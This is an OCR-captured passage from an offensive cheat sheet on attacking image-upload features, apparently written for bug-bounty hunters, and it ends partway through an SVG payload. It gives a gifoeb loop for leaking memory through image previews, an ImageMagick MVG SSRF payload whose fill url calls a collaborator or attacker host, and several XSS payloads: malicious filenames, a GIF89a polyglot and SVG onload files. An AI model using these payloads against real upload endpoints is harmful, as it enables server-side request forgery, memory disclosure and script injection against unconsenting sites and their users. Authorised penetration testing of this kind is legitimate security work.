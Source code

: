 ```markdown
	for p in previews/*; do
    ./gifoeb recover $p | strings;
	done

7. More details here https://github.com/neex/gifoeb

########################### Another Different method #############################

Reference : https://www.exploit-db.com/exploits/39767 , https://hackerone.com/reports/135072

1. Find Upload functionality.
2. Make a file with .mvg extension and add below code in it.

push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context

Here example.com can be your burp collab url or your site were you can receive HTTP request.
3. Now use below command 

convert ssrf.mvg out.png

4. Upload the image and see if you received http request.

Find ready made and more payloads here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik
```

## Exploitation:

### XSS:

```markdown
There are multiple ways to achieve XSS.

1. Set file name filename="svg onload=alert(document.domain)>" , filename="58832_300x300.jpg<svg onload=confirm()>"
2. Upload using .gif file

GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;

3. Upload using .svg file

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
